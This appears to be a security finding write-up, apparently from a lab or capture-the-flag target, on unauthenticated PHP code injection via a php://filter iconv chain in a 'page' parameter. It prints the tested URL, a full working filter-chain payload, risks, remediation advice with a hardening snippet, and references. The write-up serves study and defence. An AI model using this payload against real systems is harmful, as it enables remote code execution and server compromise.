

# Unauthenticated Code injection


# **Description**

The application allows user-controlled input to be passed directly into a `page` parameter without sufficient sanitization or validation as well as name as not requiring authentication. This makes it possible to exploit PHP wrappers, particularly `php://filter`, in combination with a **complex chain of encoding conversions**.

By carefully crafting a payload with multiple chained `convert.iconv.*` filters, an attacker can manipulate the way the PHP engine reads and interprets file contents. This results in **arbitrary code injection**, potentially leading to **Remote Code Execution (RCE)** or full server compromise.

The tested URL is:

```
https://94fb5cc4ec9f.3xploit.me/index.php?page=php://filter/<long_chain>/resource=php://temp
```

This abuse leads to **direct injection of PHP code into memory** during the decoding process.

# **Exploitation**

The attacker crafts a malicious `page` parameter containing a chain of `php://filter` operations that:

- Read an internal PHP resource (`php://temp`);
- Apply multiple `convert.iconv.*` encodings and `base64` transformations;
- Distort the interpretation of binary data;
- Inject valid PHP code during the decoding chain;
- Potentially execute arbitrary commands.

The exploit may be combined with **Local File Inclusion (LFI)**, or directly lead to **command execution** if certain conditions are met.

In this case, the chain abuses rare and less common encoding transformations (such as `CSISO2022KR`, `UTF7`, `JOHAB`, `SHIFT_JISX0213`) to corrupt and rebuild file content in memory.

### Payload

*long-chain payload*

```bash
IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.UCS2.UTF-8|convert.iconv.CSISOLATIN6.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UTF-16|convert.iconv.ISO6937.UTF16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.ISO6937.8859_4|convert.iconv.IBM868.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```



---

# **Risk**

- **Remote Code Execution (RCE)**: Execution of arbitrary commands.
- **Data Breach**: Access to database credentials, passwords, sensitive configuration files.
- **Full System Compromise**: If combined with privilege escalation.
- **Persistence**: Backdoors can be injected through the same filter technique.

---

# **Remediation**

- **Strict Input Validation**: Whitelist allowed values for parameters like `page`, rejecting any value that starts with `php://`, `file://`, or similar wrappers.
- **Disable URL Includes**: In `php.ini`, set `allow_url_include=0` and `allow_url_fopen=0` if not needed.
- **Restrict `php://filter` Usage**: Apply server-side application hardening to deny parsing of dangerous schemes.
- **Use Path Restriction**: Ensure that only specific, known files can be included or loaded by the application.

Example code hardening:

```php
// Allow only known safe files
$allowed_pages = ['home.php', 'about.php', 'contact.php'];
if (in_array($_GET['page'], $allowed_pages)) {
    include($_GET['page']);
} else {
    die("Unauthorized access.");
```

---

# **References**

- [https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it](https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it)
- [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)
- [PHP Wrappers & Protocols](https://www.php.net/wrappers.php)

---

# **Author**

4Fromages